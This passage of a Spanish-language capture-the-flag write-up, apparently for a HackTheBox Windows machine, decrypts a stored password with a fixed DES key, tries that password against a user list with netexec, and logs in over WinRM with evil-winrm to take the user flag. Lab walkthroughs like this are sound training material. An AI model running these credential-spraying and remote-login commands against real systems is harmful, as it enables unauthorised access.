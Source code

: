 {% code overflow="wrap" %}
```bash
echo '6b cf 2a 4b 6e 5a ca 0f' | xxd -r -p |  openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

## Initial Access

### Abusing WinRM- EvilWinRM

Procederemos a revisar si algún usuario de los que disponemos se puede autenticar con estas credenciales, comprobamos que el usuario "s.smith" puede autenticarse.

```bash
netexec smb 10.10.10.182 -u users.txt -p 'sT333ve2' --continue-on-success
```

<figure><img src="../../../.gitbook/assets/1249_vmware_o9j1TMxtLW.png" alt=""><figcaption></figcaption></figure>

Guardaremos las nuevas credenciales obtenidas en nuestro archivo "credentials.txt"

```bash
catnp credentials.txt
```

<figure><img src="../../../.gitbook/assets/1250_vmware_gBugsOapu3 (1).png" alt=""><figcaption></figcaption></figure>

Validaremos con **netexec** de que podemos conectarnos al WinRM, comprobamos que sí, debido que la herramienta nos reporta (**pwn3d**) y obtenemos la flag de **user.txt**.

```bash
netexec winrm 10.10.10.182 -u s.smith -p 'sT333ve2'

evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'
```
